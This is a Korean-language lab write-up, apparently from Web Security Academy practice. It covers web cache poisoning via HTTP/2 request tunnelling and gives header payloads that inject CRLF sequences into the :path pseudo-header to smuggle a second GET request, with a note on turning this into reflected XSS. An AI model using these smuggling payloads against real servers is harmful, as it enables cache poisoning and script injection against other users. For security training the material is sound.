 <img src="15.png" width=40% style="display: block; margin: auto"/>
 
 
### 💥 05-05. HTTP/2 요청 터널링을 이용한 웹 캐시 Poisioning

**Step 1) 취약 여부 확인**
아래와 같이 헤더 입력 후 요청하여 '/?x=test' 페이지 요청에 대한 응답으로 404 에러가 발생하는지 확인합니다.

Header name
```
:path
```
Header value
```
/?x=test\r\n
foo:a
```


**Step 2) Request 터널링 취약점 확인 및 실행**
아래와 같이 헤더 설정 후 HEAD 메소드로 요청하면 응답 페이지에서 터널링된 페이지의 내용이 출력됩니다. 단, 터널링되어 출력되는 페이지의 크기가 래퍼 패킷(HEAD 요청)의 원래 크기보다 커야 Time out 되지 않고 응답 받을 수 있습니다.

또한 응답 페이지의 Content-Type이 'text/html' 이므로 터널링 되는 페이지에 사용자의 입력 값이 인코딩되지 않고 출력된다면 Reflecte XSS 공격을 수행할 수도 있습니다.

Header name
```
:path
```
Header value
```
/?test=1 HTTP/1.1\r\n
Host: ac971f321f7050cbc0ab62e10039001d.web-security-academy.net\r\n
\r\n
GET /post?postId=3 HTTP/1.1\r\n
Foo: bar
```